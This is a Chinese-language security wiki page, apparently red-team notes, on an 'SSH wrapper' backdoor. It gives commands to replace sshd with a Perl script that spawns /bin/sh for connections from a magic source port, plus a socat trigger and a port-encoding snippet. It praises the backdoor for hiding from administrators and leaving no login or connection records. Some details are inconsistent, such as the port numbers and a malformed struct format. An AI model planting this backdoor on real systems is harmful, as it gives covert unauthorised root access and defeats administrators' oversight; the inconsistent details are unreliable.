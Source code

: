 # SSH wrapper

判断连接来源端口，将恶意端口来源访问传输内容重定向到/bin/sh中。

```bash
cd /usr/sbin/
mv sshd ../bin
vim sshd //编辑sshd内容为以下
#!/usr/bin/perl
exec"/bin/sh"if(getpeername(STDIN)=~/^..LF/); // \x00\x00LF是19526的大端形式
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;
service sshd restart

```

在本机执行

```bash
socat STDIO TCP4:127.0.0.1:22,sourceport=19265

```

![](images/security_wiki/15905485518709.png)


可以看到我利用socat限制了本地端口19526访问server的22端口反回一个sh窗。

修改端口可以修改..LF

```bash
import struct
buffer = struct.pack('>I6',19526)
print repr(buffer)

```

![](images/security_wiki/15905485648373.png)


优点：

1、在无连接后门的情况下，管理员是看不到端口和进程的，last也查不到登陆。

2、在针对边界设备出网，内网linux服务器未出网的情况下，留这个后门可以随时管理内网linux服务器，还不会留下文件和恶意网络连接记录。

